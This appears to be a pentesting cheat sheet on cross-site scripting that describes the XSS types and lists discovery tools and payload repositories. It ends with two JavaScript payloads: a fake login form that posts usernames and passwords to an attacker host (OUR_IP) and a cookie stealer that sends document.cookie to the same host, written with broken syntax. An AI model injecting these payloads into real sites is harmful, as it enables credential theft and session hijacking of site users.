 # Cross-Site Scripting (XSS)



### Types of XSS:

_**Stored (Persistent) XSS**_ - The most critical type of XSS, occurs when user input is stored on the back-end database then displayed upon retrieval.

_**Reflected (Non-Persistent) XSS**_ - Occurs when user input is displayed on the page after being processed by the back-end server, but without being stored.

_**DOM XSS**_ - Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side. Never reaching the back-end server.





### Automated Discovery:

There are common open-source tools that can assist in the discovery of XSS:

* **XSS Strike** - [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
* **Brute XSS** - [https://github.com/rajeshmajumdar/BruteXSS](https://github.com/rajeshmajumdar/BruteXSS)
* **XSSer** - [https://github.com/epsylon/xsser](https://github.com/epsylon/xsser)





### Manual Discovery:

The level of difficulty of finding XSS depends on the level of security of the web application. Below are some payloads to use for discovering XSS.

**PayloadAllTheThings** - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

**PayloadBox** - [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)







### Phishing / Credential Stealing:

A very common usecase for XSS is a phishing attack. Common forms of XSS phishing can include:

* Fake Login Form
* Session Hijacking



Fake Login Form:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Cookie Stealer:

```javascript
document.write(<img src="http://OUR_IP/?p="+document.cookie)></img>)
```
